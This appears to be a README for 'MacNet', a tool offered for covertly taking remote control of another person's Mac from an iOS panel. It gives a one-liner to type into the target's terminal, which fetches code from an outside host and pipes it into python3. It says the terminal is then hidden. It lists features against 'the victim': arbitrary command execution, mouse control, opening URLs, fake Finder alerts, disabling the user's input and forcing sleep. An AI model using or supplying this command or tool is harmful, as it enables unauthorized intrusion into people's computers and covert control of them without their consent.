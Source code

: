 # MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


![App Logo](https://i.imgur.com/8G4LV6b.png)


# Core Features

![Interface](https://i.imgur.com/gdzOh6e.png)

- The dark screen at the top of the page allows you to tap any location and control the position of the mouse on the victim's computer 
- The OpenURL form allows you to open any URL on the victim's default browser 
- The create Alert form allows you to send an alert to the victim's computer (it will display from "Finder") 
- The execute form allows you to execute any command in the user's terminal 
- The volume slider allows you to change the volume on the user's computer 
- The "Disable" button allows you prevent the user from controlling their computer 
- The "Sleep" button forces the victim's computer to sleep




